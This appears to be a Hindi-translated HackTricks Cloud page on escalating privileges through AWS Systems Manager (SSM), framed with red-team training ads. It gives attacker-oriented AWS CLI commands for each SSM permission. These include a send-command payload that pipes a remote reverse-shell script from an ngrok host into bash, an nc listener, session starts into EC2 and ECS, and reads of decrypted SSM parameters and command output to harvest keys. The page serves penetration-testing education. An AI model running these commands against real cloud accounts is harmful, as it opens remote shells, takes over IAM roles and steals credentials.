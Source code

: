 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

एक हमलावर जिसके पास अनुमति **`ssm:SendCommand`** है, वह **Amazon SSM एजेंट** चलाने वाले उदाहरणों में **कमांड निष्पादित कर सकता है** और **इसके अंदर चल रहे IAM भूमिका को समझौता कर सकता है**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
यदि आप इस तकनीक का उपयोग पहले से समझौता किए गए EC2 उदाहरण के भीतर विशेषाधिकार बढ़ाने के लिए कर रहे हैं, तो आप बस निम्नलिखित के साथ स्थानीय रूप से रिव शेल कैप्चर कर सकते हैं:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

### `ssm:StartSession`

एक हमलावर जिसके पास अनुमति **`ssm:StartSession`** है, वह **Amazon SSM एजेंट चला रहे उदाहरणों में SSH जैसी सत्र शुरू कर सकता है** और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
सत्र शुरू करने के लिए आपको **SessionManagerPlugin** स्थापित करना होगा: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क।

#### ECS पर प्रिवेस्क

जब **ECS कार्य** **`ExecuteCommand` सक्षम** होते हैं, तो पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके कंटेनर के अंदर **एक कमांड निष्पादित** कर सकते हैं।\
[**दस्तावेज़**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार, यह उस उपकरण के बीच एक सुरक्षित चैनल बनाकर किया जाता है जिसका उपयोग आप “_exec_“ कमांड शुरू करने के लिए करते हैं और लक्षित कंटेनर के साथ SSM सत्र प्रबंधक। (इस काम के लिए SSM सत्र प्रबंधक प्लगइन आवश्यक है)\
इसलिए, `ssm:StartSession` वाले उपयोगकर्ता उस विकल्प को सक्षम करके **ECS कार्यों के अंदर एक शेल प्राप्त** कर सकेंगे, बस यह चलाकर:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**संभावित प्रभाव:** `ExecuteCommand` सक्षम चल रहे कार्यों से जुड़े `ECS` IAM भूमिकाओं के लिए सीधे प्रिवेस्क।

### `ssm:ResumeSession`

एक हमलावर जिसके पास अनुमति **`ssm:ResumeSession`** है, वह **Amazon SSM एजेंट के साथ चल रहे उदाहरणों में SSH जैसी सत्र को फिर से शुरू कर सकता है** जिसमें **अविभाजित** SSM सत्र स्थिति है और **इसके अंदर चल रही IAM भूमिका को समझौता कर सकता है।**
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**संभावित प्रभाव:** चल रहे उदाहरणों के साथ जुड़े EC2 IAM भूमिकाओं पर सीधे प्रिवेस्क के लिए SSM एजेंट चल रहे हैं और डिस्कनेक्टेड सत्र।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उपरोक्त अनुमतियों के साथ एक हमलावर **SSM पैरामीटर** की सूची बनाने और **उन्हें स्पष्ट पाठ में पढ़ने** में सक्षम होगा। इन पैरामीटर में आप अक्सर **संवेदनशील जानकारी** जैसे SSH कुंजी या API कुंजी पा सकते हैं।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर के अंदर संवेदनशील जानकारी खोजें।

### `ssm:ListCommands`

इस अनुमति के साथ एक हमलावर सभी **कमांड** सूचीबद्ध कर सकता है और उम्मीद है कि उन पर **संवेदनशील जानकारी** पाएगा।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइनों के अंदर संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों के साथ एक हमलावर सभी **कमांड** की सूची बना सकता है जो भेजी गई हैं और **आउटपुट** को पढ़ सकता है, उम्मीद है कि इसमें **संवेदनशील जानकारी** मिलेगी।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड लाइनों के आउटपुट के अंदर संवेदनशील जानकारी खोजें।

### Codebuild

आप SSM का उपयोग करके एक कोडबिल्ड प्रोजेक्ट में भी जा सकते हैं जो बनाया जा रहा है:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
